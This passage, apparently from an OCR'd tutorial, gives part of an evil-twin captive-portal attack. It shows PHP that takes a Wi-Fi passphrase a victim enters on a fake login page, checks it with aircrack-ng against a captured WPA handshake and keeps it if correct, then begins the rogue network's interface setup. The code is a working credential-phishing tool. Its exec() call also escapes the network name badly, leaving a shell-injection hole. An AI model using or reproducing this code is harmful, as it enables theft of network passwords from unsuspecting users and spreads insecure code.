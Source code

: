    ```php
     }
     die();
   }
   
   # Add passphrase to wordlist ...
   $wordlist_path = tempnam('/tmp', 'wordlist');
   $wordlist_file = fopen($wordlist_path, "w");
   fwrite($wordlist_file, $passphrase);
   fclose($wordlist_file);
   
   # ... then crack the PCAP with it to see if it matches
   # If ESSID contains single quotes, they need escaping
   exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
   " -w " . $wordlist_path . " " . $handshake_path, $output, $retval);
   
   $key_found = FALSE;
   # If the exit value is 0, aircrack-ng successfully ran
   # We'll now have to inspect output and search for
   # "KEY FOUND" to confirm the passphrase was correct
   if ($retval == 0) {
       foreach($output as $line) {
           if (strpos($line, "KEY FOUND") !== FALSE) {
               $key_found = TRUE;
               break;
           }
       }
   }
   
   if ($key_found) {
   
     # Save the passphrase and redirect the user to the success page
     @rename($wordlist_path, $success_path);
   
     header('Location: index.php?success');
   } else {
     # Delete temporary file and redirect user back to login page
     @unlink($wordlist_file);
   
     header('Location: index.php?failure');
   }
   ?>
   ```

---

### Step 3: Network Set up for Captive Portal

```bash
#Assign a non-conflicting address range to your NIC
sudo ip addr add 192.168.87.1/24 dev wlan0
# Turn interface on
sudo ip link set wlan0 up
```
